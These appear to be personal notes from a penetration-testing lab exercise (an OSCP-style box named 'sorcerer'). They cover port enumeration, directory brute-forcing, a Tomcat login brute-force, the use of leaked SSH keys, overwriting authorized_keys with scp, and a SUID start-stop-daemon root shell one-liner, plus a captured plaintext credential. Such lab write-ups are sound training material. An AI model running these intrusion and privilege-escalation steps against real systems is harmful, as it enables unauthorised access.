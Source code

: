 ### Enumeration
```
IP=192.168.170.100
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80,111,2049,7742,8080,34541,34965,43085,51007 -A $IP
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
	- nc -nv $IP 22
		- SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
- 80
	- nginx
	- nc -nv $IP 80
		- http open unknown
- 111
	- rpcbind  2-4
	- nc -nv $IP 111
		- sunrpc
- 2049
	- nfs      3-4 (RPC #100003)
	- nc -nv $IP 2049
		- nfs
- 7742
	- nginx
	- nc -nv $IP 7742
		- unknown
- 8080
	- Apache Tomcat 7.0.4
	- nc -nv $IP 8080
		- http-alt
- 34541
	- mountd   1-3 RPC
	- nc -nv $IP 34541
		- unknown
- 34965
	- nlockmgr 1-4 RPC
	- nc -nv $IP 34965
		- unknown
- 43085
	- mountd   1-3 RPC
	- nc -nv $IP 43085
		- unknown
- 51007
	- mountd   1-3 RPC
	- nc -nv $IP 51007
		- unknown
### Foothold
- RPC/ SMB
	- enum4linux -U $IP
		- nothing
- 2049
	- sudo nmap --script nfs-* $IP
		- no NFS mounts available
- 80
	- Default landing page
		- ![[Pasted image 20240717090817.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 7742
	- Default landing page
		- ![[Pasted image 20240717090828.png]]
	- Login
		- ![[Pasted image 20240717090935.png]]
		- Burp
			- Does not send login req to burp
		- Source code makes it seem that all logins popup invalid login
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- /default
				- 404 not found
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP:7742
			- /zipfiles
				- francis.zip
					- nothing
				- max.zip
					- scp_wrapper.sh
						- ![[Pasted image 20240717093243.png]]
					- .ssh
						- id_rsa
							- ssh -i max/max/.ssh/id_rsa max@$IP
								- runs the scp_wrapper.sh script 
								- ![[Pasted image 20240717093414.png]]
								- ssh2john max/max/.ssh/id_rsa > max_id_rsa.hash
									- no password
						- id_rsa.pub
						- authorized_keys
							- ![[Pasted image 20240717093519.png]]
							- auto runs the scp_wrapper.sh script on ssh connect
							- Remove everything before ssh-rsa
						- scp -i ~/OSCP/boxes/sorcerer/max/max/.ssh/id_rsa -O ~/OSCP/boxes/sorcerer/max/max/.ssh/authorized_keys max@$IP:/home/max/.ssh/authorized_keys
							- This overwrite the old authorized_keys 
						- ![[Pasted image 20240717100753.png]]
					- tomcat-users.xml.bak
						- tomcat:VTUD2XxJjf5LPmu6
						- ssh tomcat@$IP
							- need public key
				- miriam.zip
					- nothing
				- sofia.zip
					- nothing
				- Downloaded and unzipped all files
- 8080
	- Default landing page
		- ![[Pasted image 20240717090838.png]]
	- Versions
		- tomcat 7.0.4
	- Login brute
		- python3 mgr_brute.py -U http://192.168.170.100:8080/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
			- not found
	- Directory Brute force
		- dirsearch -u http://$IP
			- /manager
				- 403 forbidden
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP:8080/FUZZ
			- /manager
		- Found directories
### PE
#### Linux
- max
	- id
		- uid=1003(max) gid=1003(max) groups=1003(max)
	- sudo -l
		- sudo: command not found
	- uname -a
		- Linux sorcerer 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- none
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- start-stop-daemon
			- gtfobins: `./start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p`
			- `/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p`
				- Rooted
	- Users with console
	- netstat -ano
		- Active ports
	- linpeas
		- Possible Exploits
		- Interesting Files
### Credentials
- tomcat:VTUD2XxJjf5LPmu6
### Lessons Learned
- scp can work if ssh login is not working